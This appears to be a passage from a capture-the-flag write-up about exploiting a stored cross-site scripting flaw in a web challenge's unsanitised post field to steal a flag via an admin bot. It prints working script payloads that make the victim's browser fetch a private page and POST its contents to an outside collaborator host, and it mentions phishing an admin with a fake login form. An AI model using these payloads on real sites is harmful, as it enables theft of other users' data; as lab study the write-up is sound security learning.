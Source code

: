 And yes, looks like there isn't any sanitisation on the content field.

# The attack

So we could try stealing the admin's cookie?

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.11.4
Date: Sat, 29 Jul 2023 13:11:14 GMT
Content-Type: application/json
Content-Length: 16
Vary: Cookie
Set-Cookie: session=eyJ1c2VybmFtZSI6InBvb3BvbyJ9.ZMUP8g.53pB0zMJGwwmKo6OvQP4813o0Ek; HttpOnly; Path=/
Connection: close

"Success login"
```

No good. The login JWT is created with the `HttpOnly` flag set, so no access from javascript allowed :(. Although we could try to create a fake login form to try and trick the admin to enter their credentials on a real assessment, no such real human exists here sadly.

So, after a little while of searching my smooth brain for options and trying other routes for a bit, I thought back to the bot. Since it logs in as admin and views all the posts, surely it should view my evil post too. And from there, we might be able to grab the flag from their own post.

So I crafted a payload that I hoped would reach out to my burp collaborator server:

```html
<script>fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/reachable?true")</script>
```

![Collaborator Ping](images/collab-reachable.png)

Bingo! We have a ping. Now to devise an appropriate payload to read the flag:

```html
<script>
    fetch("http://localhost:1337/posts", {
        credentials: "same-origin"
    })
    .then(response => response.text())
    .then(function (data) {
        fetch("https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/convertfirst", {
            method: "POST",
            body: data
        })
    })
</script>
```

